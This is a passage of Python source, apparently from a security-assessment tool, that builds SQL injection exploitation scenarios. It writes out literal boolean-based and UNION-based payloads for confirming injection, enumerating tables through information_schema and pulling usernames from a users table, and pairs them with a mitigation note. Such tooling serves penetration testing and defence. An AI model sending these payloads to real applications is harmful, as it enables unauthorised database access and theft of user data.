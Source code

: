 ```python
        
        if 'Time-based' in str(vulnerability.get('evidence', [])):
            scenarios.append(self._create_time_based_exploitation_scenario(parameter))
        
        return scenarios
    
    def _create_boolean_exploitation_scenario(self, parameter: str) -> Dict[str, Any]:
        """
        Create boolean-based SQL injection exploitation scenario
        """
        return {
            'type': 'Boolean-based SQL Injection Exploitation',
            'parameter': parameter,
            'attack_steps': [
                {
                    'step': 1,
                    'description': 'Verify boolean-based injection',
                    'payload': f"{parameter}=' OR '1'='1'--",
                    'expected_result': 'Modified application behavior indicating condition bypass'
                },
                {
                    'step': 2,
                    'description': 'Extract database information',
                    'payload': f"{parameter}=' OR (SELECT COUNT(*) FROM information_schema.tables)>0--",
                    'expected_result': 'Confirmation of database structure access'
                },
                {
                    'step': 3,
                    'description': 'Enumerate table names',
                    'payload': f"{parameter}=' OR (SELECT table_name FROM information_schema.tables LIMIT 1)='users'--",
                    'expected_result': 'Table name discovery through boolean logic'
                },
                {
                    'step': 4,
                    'description': 'Extract sensitive data',
                    'payload': f"{parameter}=' OR (SELECT username FROM users LIMIT 1)='admin'--",
                    'expected_result': 'Username enumeration and data extraction'
                }
            ],
            'impact': 'Complete database data extraction through automated boolean queries',
            'mitigation': 'Implement parameterized queries and input validation'
        }
    
    def _create_union_exploitation_scenario(self, parameter: str) -> Dict[str, Any]:
        """
        Create union-based SQL injection exploitation scenario
        """
        return {
            'type': 'Union-based SQL Injection Exploitation',
            'parameter': parameter,
            'attack_steps': [
                {
                    'step': 1,
                    'description': 'Determine number of columns',
                    'payload': f"{parameter}=' UNION SELECT NULL,NULL,NULL--",
                    'expected_result': 'Successful query execution indicating column count'
                },
                {
                    'step': 2,
                    'description': 'Identify data types',
                    'payload': f"{parameter}=' UNION SELECT 'test',NULL,NULL--",
```